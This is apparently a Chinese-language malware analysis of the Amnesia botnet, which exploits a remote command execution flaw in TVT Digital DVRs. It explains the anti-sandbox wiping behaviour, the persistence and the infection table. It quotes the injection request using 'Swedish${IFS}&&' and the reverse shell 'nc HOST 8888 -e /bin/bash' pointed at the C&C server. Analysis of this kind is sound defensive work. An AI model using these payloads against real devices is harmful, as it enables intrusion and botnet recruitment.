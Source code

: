 ---

## amnesia威胁报告
目前针对物联网设备的恶意软件越来越普遍，一般来说针对物联网设备的攻击分为两个方面：**一是**通过自动化工具使用密码字典尝试批量猜解物联网设备的管理员帐号及密码，导致攻击者可以轻易访问物联网设备(物联网设备被攻击者控制)；**二是**因为物联网设备存在安全漏洞，攻击者利用漏洞来对设备进行攻击，达到控制设备的目的。
**被控制的物联网设备往往会被攻击者集中起来，组建僵尸网络，从而发起DDoS(分布式拒绝服务攻击)攻击。**

近日，一个Linux僵尸网络Tsunami的新变种——名为Amnesia的恶意软件席卷网络。本文主要从爆发时间线、传播原理、对抗办法几个方面进行分析和阐述。

#### 一、主要爆发时间线

2016年3月，一个名为Rotem Kerner的安全研究员发现，某款DVR(数字视频录像机)存在远程代码利用漏洞，黑客可以利用漏洞远程悄无声息地在设备上执行命令并进行完全掌控，随后他将其发现的漏洞上报了DVR厂商，但是未得到任何回应。

心怀不轨的黑客们发现了这座潜在的“金矿”，名为Amnesia的恶魔便悄然诞生。

Amnesia是Tsunami僵尸网络的变种，其父辈Tsunami是一种下载程序/IRC僵尸程序后门，被网络犯罪分子用来发动DDoS攻击。

Amnesia即为通过利用漏洞来对物联网设备进 行攻击的恶意软件，Amnesia也是首个采用虚拟机检测技术来躲避恶意软件分析沙箱的Linux嵌入式恶意软件。
Amnesia僵尸网络允许攻击者利用 远程代码执行漏洞对未打补丁的数字视频录像机设备发起攻击。其中全球大概70多家厂商受到影响，这些厂商均使用了由TVT Digital（深圳同为）生产的设备。根据目前的扫描数据，全球有227000台设备受此漏洞影响，主要受影响的国家和地区包括：中国台湾、美国、以色 列、土耳其和印度。


#### 二、技术分析
本次发现的Amnesia僵尸网络运行在PowerPC架构上，首先攻击者通过暴力猜解或者其他手段感染DVR设备，使Amnesia恶意代码在 DVR上开始运行，当Amnesia运行后，它会连接远程C&C，并根据控制指令中指定的IP范围扫描网络中的其他DVR设备进行传播。

##### 2.1 反虚拟机

Amnesia是首个采用虚拟机检测技术来躲避恶意软件分析沙箱的Linux嵌入式恶意代码。针对Windows或安卓的恶意软件常常会采用虚拟机 检测技术来躲避沙箱环境的分析，然而该技术在Linux嵌入式系统上却很少采用。当僵尸网络Amnesia发现自身运行于VirtualBox、 VMware或QEMU虚拟机中，它将删除系统中的所有文件来阻碍恶意软件分析沙箱的正常运行。

Linux系统中的/sys/class/dmi/id目录里存放了主机的相关硬件信息，包括产品信息、主板信息、Bios信息等，Amnesia就是通过读取该目录中的文件获取当前主机的硬件信息。当Amnesia运行时会读取/sys/class/dmi/id/product_name和/sys/class/dmi/id/sys_vendor文件，并匹配其中是否包含关键字“VirtualBox”、“VMware”和“QEMU”来判断当前目标系统是否为虚拟机。 

当检测到当前主机为虚拟机时，Amnesia将开启自我删除，并删除Linux根目录、当前用户主目录、工作目录，这些删除操作相当于擦除整个Linux系统，会对整个系统造成损害。 

##### 2.2 感染后行为

当目标系统不是虚拟机环境时，
- Amnesia会执行命令来更改系统限制。 
其中主要命令包括:  

| 命令 | 注释 |
| :---- | :---- |
| echo 80000500 > /proc/sys/fs/nr_open 1>/dev/null 2>/dev/null | 更改进程可以打开的最大文件描述符的数量 |
|ulimit -n 1000 1>/dev/null 2>/dev/null | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 10000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 100000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 1000000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 10000000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|echo 1 > /proc/sys/net/ipv4/tcp_tw_recycle 1>/dev/null 2>/dev/null  | 开启tcp_tw_recycle选项，能够更快地回收TIME-WAIT套接字|
|sysctl -w net.ipv4.tcp_moderate_rcvbuf=\"0\" 1>/dev/null 2>/dev/null  | 关闭TCP内存自动调整功能|
|sysctl -w fs.file-max=999999999999999999 1>/dev/null 2>/dev/null  | 更改文件句柄的最大数量|

- Amnesia会根据当前用户的权限将自身拷贝到/etc/init.d/.reboottime和/etc/cron.daily/.reboottime,然后修改用户目录下的.bashrc、.bash_profile文件，实现自身随系统启动运行。
- Amnesia会杀死与Telnet及SSH相关的进程，来防止管理员或其他攻击者通过远程登录来控制设备。
将自身写入到用户目录下.bashrc、.bash_profile实现随系统启用运行。 

##### 2.3 控制指令
Amnesia采用IRC协议与C&C进行通信，其中支持的控制指令较多，而且包括许多与DDoS攻击相关的指令。通过对控制命令的进一步 分析，发现Amnesia使用了与Tsunami恶意代码相同的控制指令，也进一步印证了Amnesia为Tsunami的新变种。

##### 2.4 漏洞利用

在控制指令中包括两个特殊的指令CCTVSSCANNER和CCTVPROCS。其中，CCTVSSCANNER用来扫描DVR设备，CCTVPROCS用来对存在漏洞的设备进行攻击。

当Amnesia收到CCTVSSCANNER指令时，Amnesia会构造请求向指定的IP地址发起连接，然后读取返回内容，如果返回内容中包括 “Cross Web Server”，则表示该DVR设备存在。Amnesia会构造请求并在请求中加入要远程执行的shell命令发起对DVR设备的访问。(其 中${IFS}用来代替空格，构造的shell为nc HOST 8888 -e /bin/bash,其中的 HOST会填充为C&C地址)

Amnesia恶意代码会请求/language/[language]/string.js页面,TVT DVR设备在处理针对/language/[language]/路径的请求时，首先会检查[language]是否存在，如果不存在则执行tar -zxf /mnt/mtd/WebSites/language.tar.gz [language]/* -C /nfsdir/language命令。在Amnesia构造的请求中[language]被填充为Swedish${IFS}&&shell，由于Swedish不存在，所以会执行tar -zxf /mnt/mtd/WebSites/language.tar.gz Swedish && shell命令 /* -C /nfsdir/language命 令。即Swedish后面连接的shell命令会被执行，这就导致了远程命令执行。 (关于该漏洞的详细信息可参阅http://www.kerneronsec.com/2016/02/remote-code-execution- in-cctv-dvrs-of.html)
#### 三、影响

通过“跨网络服务器”的指纹我们发现了，全球范围内有超过22.7万台曝露在互联网上的设备，可能为TVT Digital公司生产。我们还分别使用了Shodan.io和Censys.io上的关键字进行了搜索，它们分别报告了大约50,000和约705,000个相关IP地址。

下表列出了前20位潜在易受 TVT Digital DVR设备漏洞影响的国家：

| 序号 |  地区 | 感染数量 |
| --- | --- | ---- |
|1. |Taiwan |47170|
|2. |United States |44179|
|3. |Israel |23355|
|4. |Turkey |11780|
|5. |India |9796|
|6. |Malaysia|9178|
|7. |Mexico |7868|
|8. |Italy |7439|
|9. |Vietnam| 6736|
|10.|United Kingdom|4402|
|11. |Russia |3571|
|12. |Hungary|3529|
|13. |France |3165|
|14. |Bulgaria| 3040|
|15. |Romania|2783|
|16. |Colombia|2616|
|17. |Egypt| 2541|
|18. |Canada|2491|
|19. |Iran |1965|
|20. |Argentina |1748|


#### 四、技术分析及预测

随着越来越多的物联网设备连接至互联网，那些不安全的物联网设备正在成为威胁实施者眼中唾手可得并可轻松利用的成熟果实。正如臭名昭著的Mirai 僵尸网络，针对网络摄像头和家庭路由器等设备中的登录漏洞进行攻击利用，发起了迄今为止已知的规模最大的DDoS攻击。如果物联网设备制造商不能确保其设 备的绝对安全，对数字经济的潜在影响将是毁灭性的。
